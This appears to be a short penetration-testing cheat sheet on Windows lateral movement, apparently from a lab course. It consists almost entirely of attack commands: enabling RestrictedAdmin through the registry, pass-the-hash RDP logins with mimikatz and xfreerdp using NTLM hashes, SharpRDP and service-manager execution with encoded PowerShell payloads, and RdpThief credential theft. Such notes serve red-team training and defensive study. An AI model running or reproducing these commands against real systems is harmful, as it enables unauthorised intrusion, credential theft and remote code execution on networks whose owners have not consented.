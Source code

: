 Open a PS session on target & enable restrictedadmin

```
PS> Enter-PSSession -Computer appsrv01

PS> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

#### Pass the Hash RDP

Restricted mode protects against credential attacks but allows for pass-the-hash connections. 

```
mimikatz # privilege::debug

mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:"mstsc.exe /restrictedadmin"
```

Or, using XFreeRdp

```
xfreerdp /u:admin /pth:2892d26cdf84d7a70e2eb3b9f05c425e /d:corp1.com /v:192.168.83.6
```

#### SharpRDP

```
> .\SharpRDP.exe computername=appsrv01 command="powershell -exec bypass -enc IAA9[...]AA==" username=corp1\dave password=lab
```

#### RdpThief

```
c:\tools\> mstsc.exe

c:\tools\> .\RdpThiefInject.txe

c:\tools\> type c:\users\dave\appdata\local\temp\2\data.bin
```

### PsExec

#### ShittySCShell

```
ShittySCShell.exe appsrv01 InstallService "c:\windows\system32\cmd.exe /C powershell -exec bypass -enc JABk[...]AJAB"
```

#### SCShell

python

```
python3 scshell.py -service-name 'SensorService' 'corp1/admin:lab@192.168.83.6'

python3 /usr/local/bin/scshell.py -hashes '1ef8ec7a4e862ed968d4d335afb77215:1ef8ec7a4e862ed968d4d335afb77215' 'vault/sqladm@172.0.0.155'
```
